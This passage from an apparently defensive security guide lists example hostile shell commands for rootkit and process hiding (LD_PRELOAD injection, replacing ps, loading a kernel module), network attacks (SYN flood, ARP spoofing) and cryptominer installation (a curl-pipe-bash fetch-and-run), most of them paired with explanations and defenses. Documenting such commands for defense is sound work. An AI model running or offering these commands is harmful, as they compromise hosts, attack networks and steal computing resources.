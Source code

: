 
## 8. Process Hiding and Rootkits

### Commands:
```bash
echo "LD_PRELOAD=/tmp/evil.so" >> /etc/environment
mount -o bind /fake-ps /bin/ps
insmod /tmp/rootkit.ko
```

**Why they're dangerous:**
- `LD_PRELOAD` hijacks library loading
- Replaces system binaries with compromised versions
- Kernel modules can hide processes and files
- Makes detection extremely difficult

**Defense:**
- Use `rkhunter` or `chkrootkit` regularly
- Enable kernel module signing
- Use `checksec` and binary verification
- Monitor `/proc` and `/sys` for anomalies

---

## 9. Network Attacks from Compromised Host

### Commands:
```bash
hping3 -S --flood -V target-ip
nmap -sS -p- target-network
arpspoof -i eth0 -t victim gateway
```

**Why they're dangerous:**
- Launches DDoS attacks from your IP
- Scans networks for vulnerable hosts
- ARP poisoning for man-in-the-middle attacks
- Makes your system liable for attacks

**Defense:**
- Egress filtering
- Rate limiting on network interfaces
- Intrusion Detection Systems (IDS)
- Disable unnecessary network tools in production

---

## 10. Cryptominer Installation

### Commands:
```bash
curl -sL https://raw.github.com/miner/xmrig/install.sh | bash
nohup /tmp/.hidden-miner --donate-level 0 &
nice -n 19 /usr/local/bin/miner --cpu 80% &
```
